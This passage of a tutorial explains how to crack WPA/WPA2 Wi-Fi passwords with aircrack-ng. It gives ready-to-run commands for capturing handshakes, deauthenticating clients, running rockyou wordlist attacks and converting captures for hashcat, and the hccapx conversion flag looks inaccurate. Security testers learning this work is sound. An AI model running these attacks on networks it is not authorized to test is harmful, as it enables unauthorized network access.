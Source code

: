 To crack a WPA/WPA2 password, capturing the 4-way handshake is crucial.

- **Capturing Packets**:
  - `airodump-ng --bssid [target BSSID] -c [channel] --write output wlan0mon`

#### Cracking the Password

Once the handshake is captured, use `aircrack-ng` to crack the password:

- **Basic Command**:
  - `aircrack-ng -w [path to wordlist] output-01.cap`
    - Find the file:
      - `/usr/share/wordlists`
    - Decompress the file:
      - `gunzip rockyou.txt.gz`

This command uses a wordlist to perform a dictionary attack against the handshake file captured by `airodump-ng`.

### Advanced Techniques

For more sophisticated approaches, consider:

- **Deauthentication Attack**:
  - Forces devices to reconnect, capturing new handshakes.
  - `aireplay-ng --deauth 5 -a [routers MAC/BSSID] -c [client's MAC/STATION] wlan0`
- **Using GPU Acceleration**:
  - Convert the capture to a hashcat format for faster cracking with GPUs.
  - `aircrack-ng -J output hashcat_output.hccapx`

### Utilizing Aircrack-ng's Capabilities

To maximize the effectiveness of Aircrack-ng in cracking WPA/WPA2 passwords, it's important to tailor the tool's options and strategies to the specifics of the network and the environment. Here are some guidelines:

- **Customizing Options**:
  - Adjust performance settings and use optimal commands for your specific scenario.
  
- **Network Specifics**:
  - Always consider the target network's security settings, such as the type of encryption and the strength of the deployed passwords.

- **Monitoring and Managing Attacks**:
  - Keep track of your cracking attempts and adjust strategies as needed based on feedback from the tools.

Cracking WPA/WPA2 passwords with Aircrack-ng is a powerful method in a security professional's toolkit, particularly useful in penetration testing and ethical hacking. It highlights the importance of strong wireless security policies and the need for continuous network monitoring.

**Workflow Summary**:

1. **Prepare the Environment**:
   - Use `airmon-ng check kill` to stop services that might interfere with your wireless card’s monitor mode. This step ensures that no other processes will disrupt the monitoring and packet capturing process.
